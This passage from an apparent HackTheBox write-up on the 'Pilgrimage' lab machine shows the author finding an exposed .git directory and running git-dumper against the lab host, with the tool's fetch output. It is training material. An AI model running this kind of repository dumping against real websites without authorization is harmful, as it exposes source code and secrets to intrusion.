 ![Untitled](/Vulnhub-Files/img/Pilgrimage/Untitled%201.png)

After directory or files bruteforcing I got the .git file so lets dump that with git-dumper Tool .

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage]
└─$ git-dumper http://pilgrimage.htb/.git /git            
Warning: Destination '.' is not empty
[-] Testing http://pilgrimage.htb/.git/HEAD [200]
[-] Testing http://pilgrimage.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://pilgrimage.htb/.git/COMMIT_EDITMSG [200]
[-] Fetching http://pilgrimage.htb/.git/description [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/commit-msg.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/post-commit.sample [404]
[-] http://pilgrimage.htb/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://pilgrimage.htb/.gitignore [404]
[-] http://pilgrimage.htb/.gitignore responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/post-update.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/pre-applypatch.sample [200]
...
```
{: .nolineno}
{: .nolineno}

Now on git directory I got different files ⤵️
